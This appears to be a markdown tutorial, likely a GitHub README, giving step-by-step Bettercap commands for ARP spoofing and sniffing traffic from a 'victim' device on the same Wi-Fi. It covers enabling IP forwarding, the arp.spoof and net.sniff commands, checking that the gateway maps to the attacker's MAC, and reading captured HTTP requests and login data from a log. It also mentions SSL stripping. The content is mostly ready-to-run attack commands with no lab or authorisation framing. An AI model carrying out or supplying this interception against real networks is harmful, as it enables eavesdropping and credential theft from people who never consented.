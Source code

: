 ### 🧱 1. Devices & Network

- **Attacker PC**: Kali Linux (your machine)
    
- **Victim device**: Any (phone or PC)
    
- Both devices must be:
    
    - Connected to same Wi-Fi
        
    - Have IPs like `192.168.14.x


### 🔁 2. Enable IP Forwarding

Without this, packets don’t flow between victim and router:

~~~bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
~~~
To make it permanent (optional):
~~~bash
sudo nano /etc/sysctl.conf
~~~
Uncomment or add:
~~~ini
net.ipv4.ip_forward=1
~~~

### 🕵️ 4. Run Bettercap

Start with:
~~~bash
sudo bettercap -iface wlan0
~~~
Inside Bettercap shell:
~~~bash
net.probe on
net.recon on
net.show                    # lists other devices
set arp.spoof.targets <victim-ip>
set arp.spoof.internal true
arp.spoof on
net.sniff on
~~~
### 📡 5. Check if Victim is Intercepted

**From victim**, run:
~~~bash
arp -a
~~~
If the **gateway IP** now shows Kali's **MAC address**, ARP spoofing is working.

Example:
~~~ruby
Gateway IP: 192.168.14.1 -> 08:00:27:aa:bb:cc (Kali's MAC)
~~~
### 🔐 6. Only Intercept HTTP, Not HTTPS

Modern websites use **HTTPS**, which is encrypted. You **can't see** credentials unless:

- The victim accesses **HTTP** (not HTTPS) site
    
- Or you set up **SSL stripping**, which is advanced
    

So test with:
~~~arduino
http://<Kali-IP>/login.html
~~~

### 📄 7. View Sniffed Data

In Bettercap:
~~~bash
net.sniff on
~~~
Then on Kali:
~~~bash
tail -f ~/.bettercap.sniffer.log
~~~
You’ll see captured HTTP requests and headers here.
